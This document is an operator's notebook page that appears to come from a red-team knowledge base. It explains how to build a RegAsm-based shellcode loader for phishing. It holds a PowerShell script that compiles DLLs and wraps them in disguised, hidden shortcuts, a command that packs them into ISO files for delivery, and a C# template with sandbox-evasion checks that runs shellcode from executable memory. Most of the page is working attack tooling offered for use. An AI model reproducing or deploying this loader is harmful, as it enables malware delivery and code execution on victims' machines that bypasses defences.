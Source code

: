 ```yaml
---
creation date: January 19th 2022
last modified date: January 19th 2022
aliases: []
tags: #📖
---
```


Primary Categories: [[01 - Operation]]
Secondary Categories:  [[02 - External]]
Links: [[03 - Content/Phishing Payloads]] - [[HexDump]]
Search Tag: #📖  

# [[Regasm]]  
## Standard Loader 
https://gist.github.com/matterpreter/03e2bd3cf8b26d57044f3b494e73bbea

- Build as .NET Framework DLL (64-bit)
- Run with `C:\Windows\System32\Microsoft\Framework64\v4.0.30314\RegAsm.exe /u <NameOfDLL>`
- If compiling with a .sln, ensure that ComVisible is set to true in the AssemblyInfo.cs file under Properties
- Add a reference to System.EnterpriseServices.dll

## Compile and Make LNKs 
###  Generate DLLs and LNKs with PowerShell
```powershell 
$Path = "C:\Users\rvauser\Source\Repos\RegistrationUtility"
cd $Path
$csFiles = Get-ChildItem -Path $Path -Filter *.cs
ForEach ($Item in $csFiles) {
    $basename = $Item.BaseName
    if ($basename -Match "x64") {
        $Program = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
        $Arguments = "/platform:x64"
    } else {
        $Program = "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe"
        $Arguments = "/platform:x86"
    }
    $Arguments += " /r:System.EnterpriseServices.dll /target:library /out:SpeedTest-$basename.dll $basename.cs"
    Write-Output "Compiling $basename"
    Start-Process -WindowStyle Hidden -Wait -FilePath $Program -ArgumentList $Arguments
}

$dlls = Get-ChildItem -Path $Path -Filter *.dll -Force
$WshShell = New-Object -ComObject WScript.Shell

ForEach ($Item in $dlls) {
    $basename = $Item.BaseName
    Write-Output "Creating shortcut for $basename"
    $itemDir = New-Item -Path $Path -Name $basename -ItemType "directory"
    $lnkName = Join-Path $itemdir -ChildPath ($basename + ".lnk")

    $WshShell = New-Object -ComObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($lnkName)
    $Shortcut.RelativePath = "."
    if ($basename -Match "x64") {
        $Shortcut.TargetPath = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe"
    } else {
        $Shortcut.TargetPath = "C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegAsm.exe"
    }
    $Shortcut.Arguments = "/u " + $basename + ".dll"
    $Shortcut.WindowStyle = 7
    $Shortcut.IconLocation = "C:\WINDOWS\system32\imageres.dll,278"
    $Shortcut.Save()

    $dllCopy = Copy-Item -PassThru -Path $Item -Destination (Join-Path $itemDir -ChildPath ($basename + ".dll"))

    if (-Not (($dllCopy.Attributes.ToString() -Split ", ") -Contains "Hidden")) {
        $dllCopy.Attributes += 'Hidden'
    }
}
```

## Convert to ISOs 
Perform this from kali using https://github.com/mgeeky/PackMyPayload from the directory where your LNK+DLL folders live.
```bash 
find . -type d | cut -f 2 -d '/' | xargs -I {} python3 /opt/PackMyPayload/PackMyPayload.py -v {}/ {}.iso
```

### Shellcode by Hand 
For getting shellcode, please reference ![[HexDump#Bin to C]]

This template is for x64 only 
```csharp
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;
using System.Diagnostics;
using Microsoft.VisualBasic.Devices;

namespace RegistrationUtility
{

    public class RegistrationAssembly : ServicedComponent
    {
        [ComUnregisterFunction] //This executes if registration fails
        public static void UnRegisterClass(string key)
        {
	        string dom = System.Net.NetworkInformation.IPGlobalProperties.GetIPGlobalProperties().DomainName.ToLower();
            /*if (!dom.Equals("domain.local"))
            {
                return;
            }*/

            if (Environment.ProcessorCount < 4)
            {
                return;
            }

            if (new ComputerInfo().TotalPhysicalMemory < (4 * 1024 * (long)1024 * 1024))
            {
                return;
            }
            
            Process[] processlist = Process.GetProcesses();

            foreach (Process process in processlist)
            {
                if (process.ProcessName.ToLower() == "regasm")
                {
                    ShowWindow(process.MainWindowHandle, 0);
                    break;
                }
            }

            byte[] buf = new byte[3] { 0xc0,0xff,0xee };
            IntPtr funcAddr = VirtualAlloc(
                              IntPtr.Zero,
                              (ulong)buf.Length,
                              (uint)StateEnum.MEM_COMMIT,
                              (uint)Protection.PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);

            IntPtr hThread = IntPtr.Zero;
            uint threadId = 0;
            IntPtr pinfo = IntPtr.Zero;

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        [DllImport("user32.dll")]
        static extern IntPtr GetForegroundWindow();

        [DllImport("user32.dll")]
        private static extern int ShowWindow(IntPtr hwnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(
            IntPtr lpStartAddr,
            ulong size,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(
            uint lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr param,
            uint dwCreationFlags,
            ref uint lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        public enum StateEnum
        {
            MEM_COMMIT = 0x1000,
            MEM_RESERVE = 0x2000,
            MEM_FREE = 0x10000
        }

        public enum Protection
        {
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
        }

        public RegistrationAssembly() { }


    }
}
```

How to compile:
===============
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe regasm-x64.cs
How to use:
============
`c:\> shellcodeLauncher.exe

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 19th 2022 (07:48 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
